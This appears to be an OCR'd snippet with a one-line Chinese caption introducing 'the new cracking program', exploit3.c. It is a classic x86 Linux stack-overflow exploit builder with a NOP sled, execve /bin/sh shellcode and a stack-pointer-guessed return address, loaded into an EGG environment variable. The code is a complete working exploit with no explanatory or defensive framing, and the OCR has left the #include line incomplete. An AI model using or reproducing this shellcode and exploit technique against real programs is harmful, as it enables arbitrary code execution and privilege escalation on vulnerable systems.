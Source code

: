 新的破解程序如下:

exploit3.c

```
#include

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define NOP 0x90

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

    int i;

    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);

    if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);

    ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    for (i = 0; i < bsize/2; i++)
        buff[i] = NOP;

    ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    buff[bsize - 1] = '\0';

    memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}
```
